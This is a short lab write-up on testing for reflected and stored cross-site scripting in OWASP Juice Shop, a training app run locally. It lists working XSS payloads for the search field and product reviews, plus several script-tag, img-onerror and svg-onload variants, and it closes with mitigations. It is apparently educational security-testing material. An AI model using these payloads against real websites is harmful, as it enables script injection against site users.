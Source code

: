 `XSS-on-JuiceShop.md` – Stored and reflected XSS on OWASP Juice Shop
# XSS-on-JuiceShop.md
```markdown
# ✨ XSS Testing on OWASP Juice Shop

🔧 Environment
- **App**: OWASP Juice Shop (latest)
- **Tools**: Chrome DevTools, Burp Suite, Firefox

🌟 Objective
Find and exploit **stored** and **reflected** XSS vulnerabilities in Juice Shop.

---

⚡ Reflected XSS Test

 1. Search Field:
Navigate to: `http://localhost:3000/#/search?q=<script>alert(1)</script>`

2. Observe
- If the alert box appears: **Reflected XSS Confirmed**

---

 📊 Stored XSS Test

# 1. Create a Review:
1. Register/Login
2. Go to any product → Click "Review"
3. Payload: `<script>alert('StoredXSS')</script>`
4. Submit and reload page

2. Observe
- Alert is triggered every time the page is loaded

---

 🚨 Payload Variants
```html
<script>alert(document.domain)</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
```

---

 ✅ Mitigations
- Use HTML encoding libraries
- Implement CSP headers
- Sanitize user inputs with DOMPurify or similar

